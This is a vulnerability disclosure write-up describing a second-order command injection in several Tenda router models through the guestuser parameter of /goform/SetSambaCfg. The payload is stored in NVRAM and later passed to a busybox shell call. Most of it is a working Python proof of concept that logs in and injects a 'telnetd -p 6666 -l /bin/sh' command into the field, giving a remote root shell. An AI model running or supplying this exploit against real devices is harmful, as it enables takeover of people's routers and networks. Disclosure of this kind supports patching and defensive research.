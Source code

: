 

I found a command injection vulnerability in the Tenda router's webserver. While processing the `guestuser` parameters for a post request to `/goform/SetSambaCfg`, the payload is directly stored into NVRAM. When a post request is sent again to `/goform/SetSambaCfg`, the payload is read from NVRAM and executed. It's like Second-Order SQL Injection Attack. The details are shown below:


## Overviw

Vendor: Tenda

Product:
- AC18 device, Firmware V15.03.05.19(6318) and earlier version
- AC10UV1.0 device, Firmware V15.03.06.49 and earlier version
- AC9V1.0 device, Firmware V15.03.05.19 and earlier version
- AC9V3.0 device, Firmware V15.03.06.42 and earlier version

Vulnerability type: command injection

Discoverer: longuan@iie 


## Details

1. First, `websGetVar()` retrieves the content of `guestuser` from HTTP POST request, then store it into NVRAM using `SetValue("usb.samba.guest.user", v7);`.

![image](/vulns/Tenda/images/details-3-1.png)

2. Then we access this function again. It will load the previously stored payload using `GetValue("usb.samba.guest.user", s);`. The payload directly passed to `doSystemCmd("busybox deluser %s", s);`, which cause a RCE.

![image](/vulns/Tenda/images/details-3-2.png)


## PoC

```py
# coding:utf-8

import requests

header = {
    "Accept": "*/*",
    "X-Requested-With": "XMLHttpRequest",
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.92 Safari/537.36",
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"
}

s = requests.session()
s.headers.update(header)

# login 
login_req = s.post("http://192.168.0.1/login/Auth", data="username=admin&password=70ebc4f9c9d22827a5874d1bb6f06abd")

# First, store telnet payload into NVRAM. `telenetd -p 6666 -l /bin/sh` 
req = s.post("http://192.168.0.1/goform/SetSambaCfg", data="fileCode=UTF-8&password=admin&premitEn=0&guestpwd=guests&guestuser=guest1%3btelnetd%20-p%206666%20-l%20/bin/sh%3b&guestaccess=r&internetPort=21")

# Second, send a post request again, trigger the vulnerability.
req = s.post("http://192.168.0.1/goform/SetSambaCfg", data="fileCode=UTF-8&password=admin&premitEn=0&guestpwd=guests&guestuser=guest1&guestaccess=r&internetPort=21")
print(req.text)

# Finally, using `telnet 192.168.0.1 6666` in terminal can get router's shell
```

![image](/vulns/Tenda/images/poc-3-1.png)


